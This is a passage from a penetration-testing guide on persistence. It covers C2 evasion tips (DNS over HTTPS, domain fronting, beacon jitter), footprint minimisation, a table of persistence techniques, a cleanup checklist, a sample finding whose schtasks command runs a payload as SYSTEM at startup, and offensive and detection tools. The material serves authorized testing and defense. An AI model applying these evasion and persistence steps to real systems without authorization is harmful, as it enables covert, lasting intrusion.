# Use DNS over HTTPS (DoH) for C2 — encrypted, often unmonitored
# Domain fronting through CDNs (Cloudflare, Azure Front Door)
# Jitter: randomize beacon intervals
# Sleep: long sleep periods avoid time-based correlation

# Example: Cobalt Strike malleable C2 profile concept
# set sleeptime "300000";     # 5 minute beacons
# set jitter "30";            # 30% jitter = 3.5–6.5 min variation
# set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)...";
```

### 11.5 Footprint Minimization

| Principle | Action |
|---|---|
| Volatile > Non-volatile | Use in-memory when possible; avoid writing to disk |
| Fewer mechanisms = fewer IOCs | Don't deploy 10 persistence types; 2–3 is enough |
| Minimal file creation | Encode payloads in registry, not as separate files |
| Avoid double writes | Write final payload directly; don't stage in /tmp first |
| Match existing permissions | Don't change file permissions unnecessarily |

---

## 12. Persistence Lifecycle in an Engagement



---

## 13. Persistence Technique Overview Diagram



---

## 14. Persistence Quick Reference Table

| Technique | OS | Privilege Needed | Persistence Type | Survives Reboot | Detection Difficulty | MITRE ID |
|---|---|---|---|---|---|---|
| User Crontab | Linux | User | Scheduled | ✅ | Low | T1053.003 |
| System Cron `/etc/cron.d` | Linux | Root | Scheduled | ✅ | Low | T1053.003 |
| Systemd Service | Linux | Root | Service | ✅ | Medium | T1543.002 |
| Systemd Timer | Linux | Root | Scheduled | ✅ | Medium | T1053.006 |
| `.bashrc` / `.profile` | Linux | User | Init Script | ✅ (next login) | Low | T1547.004 |
| SSH `authorized_keys` | Linux | User | Account | ✅ | Medium | T1098.004 |
| `/etc/passwd` backdoor | Linux | Root | Account | ✅ | Low | T1136.001 |
| LD_PRELOAD | Linux | Root | Lib Hijack | ✅ | High | T1574.006 |
| PAM Backdoor | Linux | Root | Auth Modify | ✅ | High | T1556.003 |
| PHP Web Shell | Linux/Win | Web User | Web Shell | ✅ | Medium | T1505.003 |
| Process Injection | Linux/Win | User | Volatile | ❌ | High | T1055 |
| HKCU Run Key | Windows | User | Autorun | ✅ | Low | T1547.001 |
| HKLM Run Key | Windows | Admin | Autorun | ✅ | Low | T1547.001 |
| Scheduled Task | Windows | Admin | Scheduled | ✅ | Low | T1053.005 |
| Windows Service | Windows | Admin | Service | ✅ | Low | T1543.003 |
| Startup Folder | Windows | User | Autorun | ✅ (next login) | Low | T1547.001 |
| WMI Subscription | Windows | Admin | Event-Based | ✅ | High | T1546.003 |
| DLL Hijacking | Windows | User | Lib Hijack | ✅ | High | T1574.001 |
| BITS Job | Windows | User | Scheduled | ✅ | High | T1197 |
| Logon Script | Windows | Admin | Script | ✅ | Medium | T1037.001 |
| AppInit DLLs | Windows | Admin | Lib Hijack | ✅ | High | T1546.010 |

---

## 15. Cleanup Checklist

> **Warning:** Leaving persistence artifacts on production systems after an engagement is a serious breach of ethics and potentially illegal. Use this checklist at engagement end.

```markdown
## Persistence Cleanup Checklist

### Linux
- [ ] Remove crontab entries: `crontab -r` (or edit to remove specific lines)
- [ ] Restore shell init files: `~/.bashrc`, `~/.bash_profile`, `~/.profile`
- [ ] Remove from `/etc/cron.d/`, `/etc/cron.daily/`, etc.
- [ ] Remove systemd service files and disable: `systemctl disable <svc>; rm /etc/systemd/system/<svc>.service`
- [ ] Remove entries from `/etc/rc.local`
- [ ] Remove SSH public keys from `~/.ssh/authorized_keys`
- [ ] Delete backdoor user accounts: `userdel -r <username>`
- [ ] Restore `/etc/passwd` and `/etc/shadow` if modified
- [ ] Remove LD_PRELOAD entries from `/etc/ld.so.preload`
- [ ] Remove PAM module entries from `/etc/pam.d/`
- [ ] Remove malicious shared libraries from `/lib/` or `/usr/lib/`
- [ ] Remove web shells from web roots
- [ ] Remove SUID bits set on files: `chmod u-s <file>`

### Windows
- [ ] Delete registry Run keys: `reg delete "HKCU\...\Run" /v "KeyName" /f`
- [ ] Remove scheduled tasks: `schtasks /delete /tn "TaskName" /f`
- [ ] Stop and delete services: `sc stop <svc> && sc delete <svc>`
- [ ] Remove files from Startup folders
- [ ] Remove WMI subscriptions (Filter, Consumer, Binding)
- [ ] Cancel BITS jobs: `bitsadmin /cancel "JobName"`
- [ ] Delete backdoor user accounts: `net user <username> /delete`
- [ ] Remove from local admin group if added: `net localgroup administrators <user> /delete`
- [ ] Remove web shells from IIS/web directories
- [ ] Remove dropped binaries and scripts
```

---

## 16. Documentation Requirements

Good documentation protects you legally, demonstrates impact to the client, and enables accurate remediation.

### Required Screenshots

1. **Before**: Limited shell, showing current user (`whoami`, `id`, `hostname`)
2. **Persistence deployed**: Exact command used, output confirming success
3. **After reboot / new session**: Shell callback confirming persistence works
4. **Cleanup**: Confirmation artifacts are removed

### Report Template for Persistence Finding

```markdown
## Finding: Persistent Backdoor Access via Scheduled Task

**Severity:** Critical
**MITRE ATT&CK:** T1053.005 — Scheduled Task/Job
**Host:** SERVER-01 (192.168.1.50)

### Description
During the engagement, the tester demonstrated that an attacker with 
SYSTEM-level access could establish persistent access by creating a 
scheduled task that executes a reverse shell payload at system startup.

### Evidence
- Screenshot 1: Initial SYSTEM shell obtained via [exploit name]
- Screenshot 2: Scheduled task created with command:
  `schtasks /create /tn "SystemHealthMonitor" /tr "payload.exe" /sc onstart /ru SYSTEM /f`
- Screenshot 3: System rebooted; persistent callback received on port 4444
- Screenshot 4: Task removed; cleanup confirmed via `schtasks /query`

### Impact
An attacker could maintain privileged access to this system indefinitely,
surviving reboots, password resets, and standard incident response procedures.
This enables ongoing data exfiltration, lateral movement, and persistent
control of the environment.

### Remediation
1. Deploy application whitelisting (AppLocker / WDAC) to prevent unauthorized executables
2. Restrict scheduled task creation to authorized administrators only
3. Enable and monitor Windows Event ID 4698 (scheduled task created)
4. Deploy Sysmon with task creation alerting
5. Conduct regular review of scheduled tasks across the environment
6. Implement least-privilege — service accounts should not have task creation rights
```

---

## 17. Useful Tools for Persistence Testing

| Tool | Platform | Purpose | Link |
|---|---|---|---|
| **Metasploit** | Cross | Framework with persistence modules | `msfconsole` |
| **Empire** | Cross | C2 framework with persistence | github.com/EmpireProject |
| **Cobalt Strike** | Windows | Commercial red team C2 | cobaltstrike.com |
| **PowerSploit / PowerUp** | Windows | PowerShell offensive toolkit | github.com/PowerShellMafia |
| **Sliver** | Cross | Open-source C2 | github.com/BishopFox/sliver |
| **Havoc** | Cross | Modern C2 framework | github.com/HavocFramework/Havoc |
| **Villain** | Linux | Backdoor manager | github.com/t3l3machus/Villain |
| **Weevely** | Linux | PHP web shell manager | github.com/epinna/weevely3 |
| **Persistence Sniper** | Windows | Enumerate all persistence locations | github.com/last-byte/PersistenceSniper |
| **AutoRuns (Sysinternals)** | Windows | Enumerate all autoruns | docs.microsoft.com/sysinternals |
| **OSSEC** | Cross | Host-based IDS (defense) | ossec.net |
| **Auditd** | Linux | Linux audit framework (defense) | `auditctl -l` |
| **Sysmon** | Windows | System activity monitor (defense) | Sysinternals |

```powershell
# PersistenceSniper — enumerate all Windows persistence locations
Install-Module -Name PersistenceSniper
Import-Module PersistenceSniper
Find-AllPersistence -Verbose

# Sysinternals AutoRuns — everything that auto-starts
# CLI version
autorunsc.exe -a * -user * -c -h -s > autoruns_baseline.csv

# Compare baseline vs current (detect changes)
# Run autoruns before and after to diff for new persistence
```

---

## 18. References & Further Reading

- [MITRE ATT&CK TA0003 — Persistence](https://attack.mitre.org/tactics/TA0003/)
- [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [PayloadsAllTheThings — Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md)
- [HackTricks — Linux Persistence](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [HackTricks — Windows Persistence](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
- [SANS — Persistence Cheat Sheet](https://www.sans.org/blog/the-ultimate-list-of-sans-cheat-sheets/)
- [Sysmon Config (SwiftOnSecurity)](https://github.com/SwiftOnSecurity/sysmon-config)
- [PersistenceSniper](https://github.com/last-byte/PersistenceSniper)

---

> **Note:** This document is intended for authorized penetration testing and red team engagements only. Always operate within the scope of your rules of engagement (ROE) and obtain written authorization before deploying any persistence mechanism on any system.
